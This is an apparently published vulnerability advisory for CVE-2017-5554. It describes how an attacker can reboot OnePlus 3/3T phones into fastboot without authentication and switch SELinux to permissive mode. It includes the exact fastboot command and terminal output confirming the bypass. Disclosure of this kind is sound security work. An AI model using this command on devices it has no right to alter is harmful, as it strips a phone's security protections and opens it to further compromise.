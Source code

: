 ```yaml
---
layout: vuln
credit: roeeh
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'cve-assign'
      date: '2017-01-22'
    - type: 'release'
      date: '2017-01-11'
      
cve: CVE-2017-5554
alephid: ALEPH-2017001
title: OnePlus 3/3T OxygenOS SELinux Security Bypass
product:
    - OnePlus 3T
    - OnePlus 3
vulnerable: 
    - OxygenOS prior to 4.0.2
references:
    - src: securityresear.ch
      url: https://securityresear.ch/2017/01/11/fastboot-oem-selinux-permissive/
      
severity: high
date: '2017-01-11'
---
```

The attacker can reboot a OnePlus 3/3T device into the fastboot mode, which could be done without any authentication. A physical attacker can press the "Volume Up" button during device boot, where an attacker with ADB access can issue the adb reboot bootloader command. Then, the attacker can put the platform's SELinux in permissive mode, which severely weakens it, by issuing: 

```terminal
fastboot oem selinux permissive
...
OKAY [  0.045s]
finished. total time: 0.047s

....

OnePlus3:/ $ getenforce
Permissive
OnePlus3:/ $
```
